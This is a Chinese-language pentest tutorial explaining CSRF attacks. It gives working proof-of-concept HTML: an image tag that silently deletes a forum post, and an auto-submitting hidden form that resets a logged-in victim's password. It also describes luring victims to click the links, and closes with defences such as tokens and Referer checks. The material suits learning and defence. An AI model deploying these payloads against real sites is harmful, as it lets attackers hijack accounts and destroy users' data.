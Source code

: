 +++
date = "2016-06-28T09:21:34+08:00"
description = ""
draft = false
tags = ["csrf"]
title = "CSRF"
topics = ["Pentest"]

+++

### 0x00 概念
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;当你登陆某个网站时，通常浏览器与网站都会形成一个会话，在会话没有结束时你可以执行发表文章、发邮件、
删除文章等操作，若会话结束，你再操作的话会提示你会话已经结束，请重新登陆。  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;CSRF就是：攻击者通过一些技术手段欺骗用户的<font color="FF0000">浏览器</font>去<font color="FF0000">访问</font>一个自己曾<font color="FF0000">认证过</font>的网站并<font color="FF0000">执行某些操作</font>。也可以说CSRF就是黑客利用受害者的Cookie骗取服务器的信任从而执行某些操作

### 0x01 利用
* 利用条件
    * 攻击者可以得知url的所有参数项并了解其含义
    * 诱导用户访问构造好的POC

* 利用地方
    * 操作是有意义的(比如:修改密码等)
    * 验证过于简单(参数固定、我们可以设置参数)

### 0x02 GET型CSRF攻击
> ```
若有论坛www.aa.com，论坛删除文章的操作是请求类似
http://www.aa.com/opt.php?id=135&act=del&name=Tom的链接
```
> ```
有用户A，他登陆了论坛，且有篇文章id为251，那么他的浏览器此时已经取得了论坛的信任
```
> ```
此时有hacker用户B，他构造了一个html为b.html，b.html内容如下：
<html>
<head>
    <title>test</title>
</head>
<body>
    <img src="http://www.aa.com/opt.php?id=251&act=del&name=A" />
</body>
</html>
将b.html放在他自己搭建的网站上，网址为http://www.bb.com/b.html
```
```
恶意用户B将链接http://www.bb.com/b.html通过qq发送给用户A，
诱使他访问，用户A一旦访问，他id为251的文章就会被删除
```

### 0x03 POST型CSRF攻击
> 若网站www.xx.com有让用户修改密码的功能，但验证过于简单，形如下图：
{{% fluid_img src="/img/post/csrf_post.png" alt="csrf_post利用.png" %}}
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>aa</title>
</head>
<body>
    <form action="http://172.23.10.200/index.php/User/Index/RegisterUpdate/id/286" method="post">
        昵称：<input type="text" name="password" id="password" class="form-control" value="xxxxx">
        用户名：<input type="text" name="password" id="password" class="form-control" value="xiaoming">
        密码：<input type="password" name="password" id="password" class="form-control" value="">
        确认密码：<input type="password" name="cpassword" id="conpassword" class="form-control" value="">
        <input type="submit" name="button" value="提交">
    </form>
</body>
</html>
```
此时我们就可以构造自动提交表单的xxxx.html，内容如下：
```html
<html>
<head>
    <title>aa</title>
</head>
<body onLoad="document.forms[0].submit()">
    <form action="http://172.23.10.200/index.php/User/Index/RegisterUpdate/id/286" method="post">
        <input type="hidden" name="password" id="password" value="666666">
        <input type="hidden" name="cpassword" id="conpassword" value="666666">
    </form>
</body>
</html>
```
然后将连接http://www.bb.com/xxxx.html 发送给用户,诱使他点击链接,一旦他点击,则密码就会被修改

### 0x04 防御：
* 对于修改密码的表单可以要求输入原密码  
* 二次确认(如删除用户、转账等重要操作弹窗要求用户确认)
* Token认证  
    * GET操作请求：可以在Cookie中存储Token  
    * POST操作请求：可以在form表单中添加一个隐藏的input标签，value值为Token
* 验证Referer
